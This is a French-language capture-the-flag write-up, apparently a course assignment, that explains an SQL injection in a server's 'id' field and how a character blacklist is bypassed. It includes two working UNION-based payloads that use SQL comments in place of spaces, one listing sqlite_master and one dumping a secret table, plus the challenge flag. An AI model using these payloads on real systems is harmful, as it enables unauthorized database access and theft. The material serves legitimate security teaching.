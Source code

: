 # SQL Injection

> 1. Quelle partie du service est vulnérable à une injection SQL ?

Le champ `id` d'une requête `POST` est vulnérable à une injection SQL.

> 2. Le serveur implémente une forme insuffisante de validation des entrées. Expliquer pourquoi
c’est insuffisant.

Le serveur implémente une validation des entrées en interdisant une certaine liste de caractères. 
Cette approche est insuffisante, car il n'y a aucune affirmation que la liste soit suffisante ou tenue à jour. 
De plus, les attaques peuvent contourner ce genre de protection en utilisant les commentaires SQL.

> 3. Quel est le flag ? Comment avez-vous procédé pour l’obtenir ?

Le flag est le suivant : `SLH25{D0N7_P4r53_5Q1_M4NU411Y}`

Pour y accéder, j'ai d'abord essayer les tentatives d'injection classiques puis celles avec les commentaires. 

```javascript
fetch("http://sql.slh.cyfr.ch/flowers", {
    method: 'POST',
    body: '{"id":"id/**/union/**/select/**/type,name,sql,4/**/from/**/sqlite_master"}',
    headers: {
        "Content-type": "application/json",
    }
});
```

Cette dernière m'a permis de lister les différentes tables dans la DB. J'ai ensuite observé qu'une table `super_secret_stuff` existait. Un nom passablement étrange.

J'ai ensuite fait un sorte de récupérer cette table avec la requête suivante : 

```javascript
fetch("http://sql.slh.cyfr.ch/flowers", {
    method: 'POST',
    body:
    '{"id":"1/**/UNION/**/SELECT/**/name,/**/value,/**/null,/**/null/**/FROM/**/super_secret_stuff--"}',
    headers: {
        "Content-type": "application/json"
    }
}); 
```

Et ainsi j'ai pu récupérer le flag.

> 4. Quel est le DBMS utilisé ? Auriez-vous procédé différement si le DBMS avait été MySQL ou
MariaDB ?

Le DBMS utilisé est SQLite. Si ce dernier avait été MySQL ou MariaDB, j'aurais procédé de la même manière en regardant la documentation de ces DBMS et en remplaçant `sqlite_master` par le nom de la table répertoriant les infos générales.